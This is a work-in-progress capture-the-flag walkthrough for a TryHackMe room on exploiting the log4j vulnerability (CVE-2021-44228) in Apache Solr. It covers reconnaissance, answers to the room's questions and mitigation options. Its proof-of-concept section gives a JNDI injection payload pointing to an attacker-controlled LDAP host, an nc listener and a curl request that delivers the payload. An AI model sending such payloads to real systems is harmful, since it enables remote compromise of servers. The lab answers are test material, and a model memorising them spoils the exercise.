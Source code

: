# WORK IN PROGRESS...
# TryHackMe: Solar, exploiting log4j

_Explore CVE-2021-44228, a vulnerability in log4j affecting almost all software under the sun._

[Solar, exploiting log4j](https://tryhackme.com/room/solar)

* * * * * 
* * * * *

## Reconnaissance

Run a basic nmap scan against vulnerable machine:
```
nmap -v IP_ADDRESS
```

Scan all ports on machine via nmap:
```
nmap -v -p- IP_ADDRESS
```

The default Port that SOLR (Apache Solr) runs on is **Port 8983**.

* * *

## Discovery

Download the files `solrlogs`.

What is the `-Dsolr.log.dir` argument set to, displayed on the front page?
```
-Dsolr.log.dir=/var/solr/logs
```

Which file includes contains this repeated entry? (Just the filename itself, no path needed)

```
solr.log
```

What "path" or URL endpoint is indicated in these repeated entries?
```
/admin/cores
```

Viewing these log entries, what field name indicates some data entrypoint that you as a user could control?
```
params
```

* * *

## Proof of Concept

```
http://IP_ADDRESS:8983/solr/admin/cores
```

General payload to abuse log4j vulnerability CVE-2021-44228:
```
${jndi:ldap://ATTACKERCONTROLLEDHOST}
```

_JNDI = Java Naming and Directory Interface_

_`ldap://` schema = target will reach out to an endpoint (an attacker controlled location, in the case of this attack) via the Lightweight Directory Access Protocol (LDAP) protocol_

Where to supply the inject syntax:
* Input boxes, user and password login forms, data entry points within applications
* HTTP headers such as `User-Agent`, `X-Forwarded-For`, or other customizable headers
* Any place for user-supplied data

Prepare a `netcat` listener on any port of your choosing:
```
nc -lnvp 9999
```

Now that you have a listener staged, make a request including this primitive JNDI payload syntax as part of the HTTP parameters. This can easily be done with the curl command line utility:
```
curl 'http://10.10.236.228:8983/solr/admin/cores?foo=$\{jndi:ldap://YOUR.ATTACKER.IP.ADDRESS:9999\}'
```

* * *
* * * 

## Mitigation

### Option 1

Manually modify the `solr.in.sh` file with a specific syntax.

Determine where the file exists:
```
locate solr.in.sh
```

The Apache Solr website Security page explains that you can add this specific syntax to the `solr.in.sh` file:

```
SOLR_OPTS="$SOLR_OPTS -Dlog4j2.formatMsgNoLookups=true"
```

Restart Solr service:
```
sudo /etc/init.d/solr restart
```

### Option 2

Upgrade to a higher version: 2.17.0 or higher.

More info on: https://solr.apache.org/security.html

### Option 3

Changing the environment variable `LOG4J_FORMAT_MSG_NO_LOOKUPS` to true, on log4j versions >=2.10:
```
JAVA_OPTS=-Dlog4j2.formatMsgNoLookups=true
```

For log4j versions >=2.7 and <=2.14.1, modify the `PatternLayout` patterns to specifiy the message converter as:
```
%m{nolookups}
```

Source: https://www.thesecmaster.com/how-to-fix-cve-2021-44228-log4shell-a-critical-0-day-rce-in-log4j-logging-library/#How_To_Fix_CVE-2021-44228_Log4Shell_Vulnerability

* * *
* * * 

# Disclaimer

For educational purposes only. This is not legal advice and some options or methods might not work for all systems, architectures, or configurations.
